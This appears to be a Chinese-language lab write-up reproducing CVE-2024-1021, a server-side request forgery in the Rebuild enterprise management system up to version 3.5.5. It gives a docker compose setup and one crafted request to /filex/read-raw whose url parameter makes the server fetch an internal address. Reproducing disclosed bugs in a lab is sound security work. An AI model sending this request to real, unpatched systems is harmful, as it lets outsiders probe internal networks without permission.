

# CVE-2024-1021 Rebuild管理系统 SSRF漏洞

[REBUILD](https://getrebuild.com/)（简称 RB）是一款高度可配置化的 [企业管理系统](https://baike.baidu.com/item/企业管理系统)，旨在帮助企业快速完成信息化建设，而无需高昂的研发成本投入。当遇到业务变化或需求变更时，可以通过系统本身提供的可配置化特性直接达成业务需求，而无需额外投入。通过 REBUILD 提供的各种配置化功能，您可以进行各种业务流程编排，灵活可靠。

在 Rebuild 至 3.5.5 版本中发现了一个被列为严重漏洞的漏洞。受此问题影响的是组件HTTP Request Handler的readRawText函数。对参数 url 的操纵会导致服务器端请求伪造。


项目下载地址：https://getrebuild.com/download

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-1021
- https://blog.csdn.net/shelter1234567/article/details/136171910?spm=1001.2014.3001.5501

## 漏洞环境

执行如下命令启动一个rebuild-3.5.5-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80`跳转到rebuild安装向导页面。




## 漏洞复现

访问url


http://ip:80/filex/read-raw?url=http://192.168.116.128:4444&cut=1


